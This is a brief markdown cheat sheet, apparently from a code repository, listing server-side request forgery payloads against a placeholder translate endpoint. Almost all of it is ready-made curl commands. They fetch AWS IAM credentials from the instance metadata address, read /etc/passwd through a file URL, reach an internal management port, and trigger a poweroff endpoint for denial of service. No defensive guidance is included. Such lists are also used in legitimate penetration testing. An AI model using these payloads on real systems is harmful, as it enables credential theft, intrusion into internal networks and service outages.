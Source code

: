 # SSRF

## Table of Contents
- [Access Control Bypass](#access-control-bypass)

## Access Control Bypass

### Access controls implemented in the service can be bypassed, leading to data leakage.

- Retrieve security credentials from instance metadata [^1]
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
   ```

- Read arbitrary files from the file system
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=file:///etc/passwd
   ```

- Access to the internal network
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=http://127.0.0.1:8888/management
   ```

### It is possible to interact with internal services

- DOS
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=http://127.0.0.1:8888/poweroff
   ```
      
[^1]: Based on IMDSv1 (AWS)
